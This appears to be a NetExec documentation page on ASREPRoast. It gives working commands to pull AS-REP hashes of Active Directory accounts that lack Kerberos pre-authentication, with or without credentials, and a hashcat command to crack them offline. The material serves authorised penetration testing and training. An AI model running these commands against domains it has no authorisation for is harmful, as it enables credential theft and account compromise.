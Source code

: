 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast

{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```bash
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```bash
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication
{% endhint %}

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

### Cracking with hashcat

To crack hashes on the file output.txt with hashcat use the following options:

```bash
hashcat -m18200 output.txt wordlist
```

### Example

Forest machine is a good example to test **ASREPRoast** with NetExec

{% embed url="https://www.hackthebox.com/machines/forest" %}

### Ressources

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat" %}

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/" %}
